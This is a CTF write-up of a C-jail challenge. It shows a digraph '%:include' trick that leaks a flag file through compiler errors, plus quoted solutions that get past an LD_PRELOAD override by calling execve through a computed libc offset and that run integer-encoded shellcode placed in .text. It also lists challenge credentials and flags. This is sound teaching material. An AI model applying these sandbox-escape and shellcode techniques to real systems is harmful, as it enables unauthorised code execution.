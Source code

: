 # Level 3
```c
ssh level2@challenges.ringzer0team.com -p 10230 
password: FLAG-0416ewrN2o058901Aqf4w9hsyH0dfqzd

RingZer0 Team Online CTF

C Jail Level 3:
Current user is uid=1002(level3) gid=1002(level3) groups=1002(level3)

Flag is located at /home/level3/flag.txt

Challenge instruction:
-----------------------------

Type DONE to compile and execute your binary.


Your payload will be compiled that way:
gcc -O3 -Wall -fstack-protector-all -fPIE bin.c -o bin

Your payload will be executed that way:
LD_PRELOAD=./override.so ./bin

You only control the content of a function.

Here's the default includes
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>

You CANNOT use the "asm,open,read,mmap,brk,sh,#,sys,\x" keyword

-----------------------------
Your C code:
```

I must admit that although this challenge wasn't that difficult it took me way too much time to find a reasonable solution. 

My first ideea was to write shellcode that would read `flag.txt` and dump its content. This is also the reason I wrote "[Testing Shellcodes](http://blog.dornea.nu/2016/08/23/testing-shellcodes/)". 

However, I've noticed that `\x` (hex code) couldn't be used as a keyword. 

Instead of giving up my first idea I should have think of some way how to re-write those hex codes to something different: octal values or integer values of chars. 

That way I could bypassed the `\x` restriction.

First I'll try to write down my thoughts which lead to the solution.

Afterwards I'll show some other cool solutions I've seen in the write-ups.

After trying hard I've decided to buy the hint:

```
#include alias for old system?
```

Then I was looking for another preprocessor directives meant to embed/include code in other files. But I didn't find sth useful. Besides that all preprocessor directives start with '#' which was a bad keyword. However, this assumption was wrong.

Somebody told me then that I should look for an "old function" which could do the same. Functions, you say. All'right! At (https://www.gnu.org/software/libc/manual/html_node/Function-Index.html)[https://www.gnu.org/software/libc/manual/html_node/Function-Index.html] you can find all libc functions available. But I had to do some filtering:

* since the open and read keywords weren't allowed, I wasn't able to create any file streams (FILE ) or file descriptors* (int fd)
that means that all functions taking a `FILE *` pointer or a file descriptor `int fd` weren't suitable
* the exec* family (execl, execlp, execle, execv, execvp, execvpe) was also not a good ideea since these functions were disabled by the `LD_PRELOAD` override
* `malloc` was also disabled by the override so no functions using malloc internally could be used

Finally I was desperately searching for some functions but I couldn't find one. I think I was overthinking the solution way to much: I was hoping to find a function (in the context of C code) which would then include `flag.txt` and try to interpret its content as valid C code. Since the flag file contains no valid code, the compiler will then produce some error messages which hopefully will dump the flag inside `flag.txt`. Unfortunately after "parsing" the libc functions index site I couldn't find anything.

Finally, somebody (thx nsr @nullsecurity.net IRC channel) told that there might be a way to accomplish "#include" without using "#". The hint I was after was called [Digraphs/Trigraphs](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs). Especially for the C language the preprocessor is able to replace digraphs/trigraphs by their [single-character equivalents before any other processing](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs#C). This way I was able to trigger the error message I was hoping for:

```c
Your C code:
%:include "/home/level3/flag.txt"
DONE

-----------------------------
Compiling your code.
In file included from /tmp/1b9dd64e-70af-40cf-95b5-d4ef0593247c/bin.c:13:0:
/home/level3/flag.txt: In function ‘_24f9c1e3682289873677f3f7f79ea8df’:
/home/level3/flag.txt:1:1: error: ‘FLAG’ undeclared (first use in this function)
 FLAG-BE79t326XS03122r5A4206tv395P64WB
 ^
/home/level3/flag.txt:1:1: note: each undeclared identifier is reported only once for each function it appears in
/home/level3/flag.txt:1:6: error: ‘BE79t326XS03122r5A4206tv395P64WB’ undeclared (first use in this function)
 FLAG-BE79t326XS03122r5A4206tv395P64WB
      ^
/tmp/1b9dd64e-70af-40cf-95b5-d4ef0593247c/bin.c:16:1: error: expected ‘;’ before ‘}’ token
 }
 ^
Your code does not compile.
There we go: FLAG-BE79t326XS03122r5A4206tv395P64WB
```

## Other solutions

Bypass `LD_PRELOAD`
As I've noticed some functions (among these also `execve()`) were disabled due to the `LD_PRELOAD` override. Some [smart guy](https://ringzer0team.com/profile/2319) managed it to find in memory the real libc functions and thus bypassing the `LD_PRELOAD` override. Using [libcdb.com](http://libcdb.com/) you can identify the exact version of the used libc version by finding out the addresses of some functions (in his case `puts` and `printf`):

```c
Compiling your code.
Executing your code.
puts: 0x7ffe36166e30
printf: 0x7ffe3614b400
```

After finding the exact libc version, he/she downloaded the file and had a look at it:

```c
$ readelf -s libc-2.19_15.so | grep puts
   184: 000000000006fe30   399 FUNC    GLOBAL DEFAULT   12 _IO_puts@@GLIBC_2.2.5
   400: 000000000006fe30   399 FUNC    WEAK   DEFAULT   12 puts@@GLIBC_2.2.5      <--- the one we have
   471: 00000000000fef10  1031 FUNC    GLOBAL DEFAULT   12 putspent@@GLIBC_2.2.5      
   644: 0000000000100900   555 FUNC    GLOBAL DEFAULT   12 putsgent@@GLIBC_2.10
  1089: 000000000006e730   303 FUNC    WEAK   DEFAULT   12 fputs@@GLIBC_2.2.5
  1597: 000000000006e730   303 FUNC    GLOBAL DEFAULT   12 _IO_fputs@@GLIBC_2.2.5
  2199: 0000000000073a80    95 FUNC    GLOBAL DEFAULT   12 fputs_unlocked@@GLIBC_2.2.5

$ greadelf -s libc-2.19_15.so | grep execve
   987: 00000000000c1360   200 FUNC    GLOBAL DEFAULT   12 fexecve@@GLIBC_2.2.5
  1418: 00000000000c1330    34 FUNC    WEAK   DEFAULT   12 execve@@GLIBC_2.2.5    <--- the one we want
```  

By calculating the offset between `puts` and `execve` he/she could then build following code:

```c
int (*real_execve)(const char *, char *const *, char * const *) = (void*)puts + <OFFSET>;
char program[] = {47, 98, 105, 110, 47, 98, 97, 115, 104, 0};
real_execve(program, 0, 0);
```

Clever!

## Execute shellcode
Since I was initially trying to execute shellcode, I was very curios about any similar solutions. [killer2](https://ringzer0team.com/profile/5732) had a very elegant solution:

```c
// Place the shellcode inside the .text section
static const char __attribute__((section (".text"))) code[] = { 72,129,236,255,15,0,0,72,49,255,72,141,52,36,106,50,90,72,49,192,15,5,72,135,254,72,49,246,106,2,88,15,5,72,141,52,36,106,100,90,72,151,72,49,192,15,5,106,1,95,72,137,194,106,1,88,15,5,72,129,196,255,15,0,0,195 };

// Run the shellcode
(*(void(*)())code)();
```

Nice!